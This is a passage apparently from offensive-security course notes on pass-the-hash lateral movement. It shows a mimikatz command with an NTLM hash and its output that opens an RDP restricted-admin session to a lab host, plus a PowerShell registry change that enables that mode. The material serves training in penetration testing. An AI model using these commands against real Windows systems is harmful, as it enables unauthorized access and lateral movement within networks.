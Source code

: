 To demonstrate this, let's perform lateral movement from the Windows 10 client to appsrv01 as the _admin_ domain user by abusing the NTLM hash.

We will assume that we are already in possession of the _admin_ user NTLM hash and are logged in to the Windows 10 client as the _dave_ user. We can then run mimikatz from an administrative console and use the pth command to launch a mstsc.exe process in the context of the _admin_ user:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
user    : admin
domain  : corp1
program : mstsc.exe /restrictedadmin
impers. : no
NTLM    : 2892d26cdf84d7a70e2eb3b9f05c425e
  |  PID  9500
  |  TID  9420
  |  LSA Process is now R/W
  |  LUID 0 ; 39684671 (00000000:025d8a3f)
  \_ msv1_0   - data copy @ 0000024C0DD4CCA0 : OK !
  \_ kerberos - data copy @ 0000024C0DDC19B8
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000024C0E0BF748 (32) -> null
```

> Listing 4 - Launching a mstsc.exe process in the context of the admin user

Once the command finishes, an instance of mstsc opens as shown in Figure 3.

![[OffSec/OSEP/Course/z. images/68e4fd9edbb335d8e63cca345c5cfe41_MD5.jpg]]

Figure 3: RDP login with restricted admin mode as admin

Clicking _Connect_ opens an RDP session on appsrv01 as _admin_, achieving lateral movement with the native RDP client in Windows with only the NTLM hash.

Even though we opened a session as _admin_, the dialog suggests we are authenticating as _dave_. This error stems from passing the hash with Mimikatz.

As mentioned previously, restricted admin mode is not enabled by default. However, if we are in possession of a password hash for a local account on the target machine, we can enable it in order to be able to use a RDP connection to that target.

To demonstrate this, we will first disable the restricted admin mode on our appsrv01 target. We'll do this from the RDP session as the _admin_ user we just created by executing the PowerShell command in Listing 5.


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit